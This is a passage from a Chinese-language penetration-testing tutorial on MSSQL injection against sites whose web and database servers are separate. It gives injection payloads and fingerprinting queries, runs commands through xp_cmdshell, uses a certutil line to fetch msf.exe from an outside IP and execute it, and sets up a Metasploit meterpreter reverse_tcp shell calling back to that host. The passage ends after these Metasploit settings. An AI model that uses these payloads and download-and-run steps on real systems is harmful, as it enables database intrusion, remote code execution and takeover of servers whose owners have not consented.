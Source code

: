 ![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeibM4jTEDOlicFnUiaibo06owwWPCSUdibbNnXub9jM8ErP1k82u7yB4a28lAJoR4PvPnVVgwYvQ5SgPA/640?wx_fmt=png)

#### (4) MSSQL 内置函数和表

通过 MSSQL 的 host\_name()、@@servername 和 serverproperty 几个内置函数来判断是否站库分离，如果客户端与服务端返回的主机名不一样则说明为站库分离，返回的主机名一样则说明可能为同服务器。

```
select host\_name();                       //客户端主机名称
select @@servername;                      //服务端主机名称
select serverproperty('MachineName');     //服务端主机名称
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeibM4jTEDOlicFnUiaibo06owwN2ibVSWXfy8hOicnvRqTcgarexdlHrThUdlfl0sEjxDROUcHuDLxVzew/640?wx_fmt=png)

也可以通过 MSSQL 的 sysprocesses 系统表来判断是否站库分离，它的功能类似于 MySQL 中的 PROCESSLIST，可以定位到当前已连接到 sqlinject 数据库的用户名和主机名等信息。

有时会有内网多台 Web 服务器同时连接一台数据库服务器中的不同数据库，这时我们就可以利用这种方式来查看连接到某数据库的用户名和主机名等信息，然后使用 Ping 主机名得到这台 Web 服务器的内网 IP 地址。

```
select name from master.sys.sysdatabases;
select \* from master.sys.sysprocesses where dbid= db\_id('sqlinject');
exec master..xp\_cmdshell 'cmd /c ping WIN-111111111';
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeibM4jTEDOlicFnUiaibo06owwqavbYp2lgpnrMZvXIGMDKJBhN4CBQmgGdqkyo4EZG0JJ2peASeBySg/640?wx_fmt=png)

还可以直接通过以下 MSSQL 注入语句来判断是否站库分离，news 必须为数据库中存在的表名，当然用其他存在的表名也是可以的，如果注入页面返回不正常则说明为站库分离，反之则为同服务器。

```
and exists(select \* from news where 1=(SELECT (case when host\_name()=@@servername then 1 else 0 end)))
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeibM4jTEDOlicFnUiaibo06oww4X6Qc3UGyC3vibgiamQTy7jSdJvOjiaatF0uDzwUiagTUot3pvlA58ynwQ/640?wx_fmt=png)

**0x05 站库分离利用思路**

#### (1) 下载远程文件

目标主机允许通外网时我们可以利用 Vbs/Ftp/IPC$/Certutil/Bitsadmin/Powershell 等方式来下载远程文件到可读写目录中，然后再去执行一下即可。

```
certutil -urlcache -split -f http://155.\*\*.\*\*\*.229:8888/msf.exe C:\\ProgramData\\msf.exe
C:\\ProgramData\\msf.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeibM4jTEDOlicFnUiaibo06owwcnyVVcqLoxgbJ5GhAzOxKtGMcn0OrKKTCiaYvz1F7NcBicLAxmE11baw/640?wx_fmt=png)  

#### (2) 执行远程 Payload

目标主机允许通外网时我们可以直接利用 Metasploit 下的 exploit/multi/script/web\_delivery 和 exploit/windows/misc/hta\_server 两个模块来执行远程 Payload 获取会话，比第一种方法更简单快捷。

```
set target 1
set payload windows/x64/meterpreter/reverse\_tcp
set lhost 155.\*\*.\*\*\*.229
set lport 443
exploit
```
